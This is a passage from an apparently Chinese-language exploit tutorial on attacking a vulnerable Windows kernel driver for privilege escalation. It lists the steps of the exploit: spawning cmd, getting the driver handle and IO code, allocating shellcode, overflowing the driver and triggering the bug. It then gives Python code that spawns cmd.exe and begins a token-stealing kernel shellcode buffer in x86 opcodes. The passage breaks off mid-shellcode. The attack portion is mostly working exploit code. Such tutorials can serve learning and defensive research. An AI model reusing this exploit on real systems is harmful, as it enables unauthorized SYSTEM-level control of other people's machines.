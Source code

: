 ```C
   pop ebp
   ret 8
```

### 利用
有了shellcode之后，考虑如何利用。包含以下步骤：
1. 启动一个cmd进程
2. 获取驱动句柄
3. 获取相应的IO code
4. 为shellcode分配内存
5. 创建一个字符串用于溢出驱动
6. 触发漏洞
第一步，创建cmd进程
```PYTHON
def procreate():
    """Spawn shell and return PID"""

    print "[*]Spawning shell..."
    lpApplicationName = u"c:\\windows\\system32\\cmd.exe" # Unicode
    lpCommandLine = u"c:\\windows\\system32\\cmd.exe" # Unicode
    lpProcessAttributes = None
    lpThreadAttributes = None
    bInheritHandles = 0
    dwCreationFlags = CREATE_NEW_CONSOLE
    lpEnvironment = None
    lpCurrentDirectory = None
    lpStartupInfo = STARTUPINFO()
    lpStartupInfo.cb = sizeof(lpStartupInfo)
    lpProcessInformation = PROCESS_INFORMATION()
    
    ret = CreateProcess(lpApplicationName,           # _In_opt_      LPCTSTR
                        lpCommandLine,               # _Inout_opt_   LPTSTR
                        lpProcessAttributes,         # _In_opt_      LPSECURITY_ATTRIBUTES
                        lpThreadAttributes,          # _In_opt_      LPSECURITY_ATTRIBUTES
                        bInheritHandles,             # _In_          BOOL
                        dwCreationFlags,             # _In_          DWORD
                        lpEnvironment,               # _In_opt_      LPVOID
                        lpCurrentDirectory,          # _In_opt_      LPCTSTR
                        byref(lpStartupInfo),        # _In_          LPSTARTUPINFO
                        byref(lpProcessInformation)) # _Out_         LPPROCESS_INFORMATION
    if not ret:
        print "\t[-]Error spawning shell: " + FormatError()
        sys.exit(-1)

    time.sleep(1) # Make sure cmd.exe spawns fully before shellcode executes

    print "\t[+]Spawned with PID: %d" % lpProcessInformation.dwProcessId
    return lpProcessInformation.dwProcessId
```
其中第二及第三步在`BSOD`部分已经说过，不再重复。
第四步，为shellcode分配内存。
```PYTHON
def shellcode(pid):
    """Craft our shellcode and stick it in a buffer"""

    tokenstealing = (
        #---[Setup]
        "\x60"                      # pushad
        "\x64\xA1\x24\x01\x00\x00"  # mov eax, fs:[KTHREAD_OFFSET]
        "\x8B\x40\x50"              # mov eax, [eax + EPROCESS_OFFSET]
        "\x89\xC1"                  # mov ecx, eax (Current _EPROCESS structure)
        "\x8B\x98\xF8\x00\x00\x00"  # mov ebx, [eax + TOKEN_OFFSET]
        #-- find cmd process"
```